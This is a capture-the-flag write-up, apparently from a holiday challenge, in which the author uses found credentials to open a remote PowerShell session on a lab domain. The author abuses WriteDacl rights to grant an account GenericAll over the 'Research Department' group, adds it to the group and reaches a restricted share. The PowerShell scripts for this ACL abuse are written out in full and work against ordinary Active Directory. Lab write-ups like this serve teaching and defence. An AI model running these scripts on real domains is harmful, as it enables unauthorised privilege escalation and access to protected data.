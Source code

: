 # Pivoting Through the Snow

Using the credentials I discovered for the remote_elf user, I was able to enter a powershell session on `10.128.1.53`

![Enter-PSSession](img/obj8-9/img1.png)

From there, I now had a powershell session on the remote end with access to .NET code. Now I can get busy.

First of all, what are the AD Groups available? I can query this using `Get-ADGroup -Filter * | select DistinguishedName`

![What AD Groups available?](img/obj8-9/img2.png)

Interesting...I wonder if I have any tasty access capabilities on some of these groups...

After looking through a bunch, I discovered that I do have access!

Lookie lookie!

![Lookie lookie!](img/obj8-9/img3.png)

Using:
```powershell
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$domainDirEntry.get_ObjectSecurity().Access | Where-Object IdentityReference -eq 'ELFU\remote_elf'
```

I have `WriteDacl` access to the Research Department!

Giving myself access...
![Giving myself access](img/obj8-9/img4.png)

aka:

```powershell
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "fkhcuqviyc"
$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
$propGUID = [guid]'00000000-0000-0000-0000-000000000000'
$IdentityReference = ( New-Object System.Security.Principal.NTAccount("elfu.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule ( $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID )
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$secOptions = $domainDirEntry.get_Options()
$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
$domainDirEntry.RefreshCache()
$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```

Confirming I have GenericAll access...

![Confirming I have GenericAll](img/obj8-9/img5.png)

Now to add the user to the group!

![Add a user](img/obj8-9/img6.png)

or

```powershell
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "fkhcuqviyc"
$password = "Biqhxtixe#"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
$user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
$sid = $user.Translate([System.Security.Principal.SecurityIdentifier])
$b = New-Object byte[] $sid.BinaryLength
$sid.GetBinaryForm($b,0)
$hexSID = [BitConverter]::ToString($b).Replace('-','')
$domainDirEntry.Add("LDAP://<SID=$hexSID>")
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```

Confirming I'm in the group...

`get-ADGroupMember "CN=Research Department,CN=Users,DC=elfu,DC=local" | where-object name -eq 'fkhcuqviyc'`

![Confirming I'm in the group](img/obj8-9/img7.png)

So...can I now access the share?

![Can I access?](img/obj8-9/img8.png)

Yup!